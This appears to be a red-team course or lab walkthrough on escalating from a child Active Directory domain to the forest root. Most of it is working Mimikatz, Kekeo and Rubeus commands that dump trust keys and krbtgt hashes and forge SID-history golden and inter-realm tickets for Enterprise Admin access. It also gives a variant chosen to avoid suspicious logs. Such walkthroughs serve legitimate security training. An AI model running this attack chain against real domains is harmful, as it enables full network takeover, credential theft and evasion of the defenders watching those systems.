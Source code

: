 # Cross Domain Attacks - Forest Root - Trust Key & krbtgt

- [Cross Domain Attacks - Forest Root - Trust Key & krbtgt](#cross-domain-attacks---forest-root---trust-key--krbtgt)
  - [Cross Domain Attacks - Forest Root](#cross-domain-attacks---forest-root)
  - [Trust Key](#trust-key)
  - [krbtgt](#krbtgt)

---

## Cross Domain Attacks - Forest Root

Domains in same forest have an **implicit two-way trust with other domains**. There is a **trust key** between the parent and child domains.

**SIDHistory** can be abused in two ways of escalating privileges within a forest:

- `krbtgt` hash of the child
- Trust tickets

All the Privilege Escalation to `techcorp.local` we have seen till now needs some misconfiguration. These ones are 'working as intended'.

<br/>

**Child to Forest Root Trust Flow**

![picture 21](images/8e051d7db9622cdd28b0a3b8c0766b6a17867390838869fae394d08d5ff6dbaf.png)  

**Child to Forest Root Trust Flow Abuse**

![picture 22](images/e6557382e4163ff8f26ad9fb0ee9d8be4be22ae956d02a06d24295477a4f5dbb.png)  

<br/>

## Trust Key

So, what is required to forge trust tickets is, obviously, the trust key. Look for **trust key** from child to parent.

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName us-dc
```

or

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\techcorp$"'
```

or

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

We can also use any of the earlier discussed tools to extract trust keys.

<br/>

Forge an inter-realm TGT:

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:b59ef5860ce0aa12429f4f61c8e51979 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'
```

| Mimikatz Parameters | |
|----|----|
|`kerberos::golden` | The mimikatz module |
|`/domain:us.techcorp.local` | FQDN of the current domain |
|`/sid:S-1-5-21-210670787-2521448726-163245708` | SID of the current domain (Can be obtained using `whoami /all`) |
|`/sids:S-1-5-21-2781415573-3701854478-2406986946-519` | SID of the Enterprise Domain Admins group (Enterprise Admins Group is always `519`; Domain SID can be obtained using `Get-DomainSID -Domain techcorp.local` of PowerView) |
|`/rc4:b59ef5860ce0aa12429f4f61c8e51979` | RC4 of the trust key |
|`/user:Administrator` | User to impersonate |
|`/service:krbtgt` | Target service in the parent domain |
|`/target:techcorp.local` | FQDN of the parent domain |
|`/ticket:C:\AD\Tools\kekeo\trust_tkt.kirbi` | Path where ticket to be saved |

<br/>

Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket with Kekeo (https://github.com/gentilkiwi/kekeo/):

```
tgs::ask /tgt:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local
```

or using older version of `Kekeo`:

```
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/techcorp-dc.techcorp.local
```

Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.

<br/>

Use the TGS to access the targeted service (may need to use it twice).

```
misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCA L@US.TECHCORP.LOCAL.kirbi
```

or

```
.\kirbikator.exe lsa .\CIFS.techcorpdc.techcorp.local.kirbi
```

Then try to list the forest DC:

```
ls \\techcorp-dc.techcorp.local\c$
```

<br/>

Alternatively, we can use `Rubeus.exe`:

```
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorpdc.techcorp.local /ptt
```

```
ls \\techcorp-dc.techcorp.local\c$
```

<br/>

---

## krbtgt

We will abuse SID history once again:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt"'
```

- In the above command, the mimkatz option `/sids` is forcefully setting the SID History for the Enterprise Admin group for `us.techcorp.local` that is the Forest Enterprise Admin Group.

<br/>

We can now access techcorp-dc as Administrator:

```
ls \\techcorp-dc.techcorp.local\C$
```

```
Enter-PSSession techcorp-dc.techcorp.local
```

<br/>

To avoid suspicious logs, we can make use of the **Domain Controllers group**:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'
```

- Domain Controllers: `S-1-5-21-2781415573-3701854478-2406986946-516`
- Enterprise Domain Controller: `S-1-5-9`

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local"'
```

<br/>

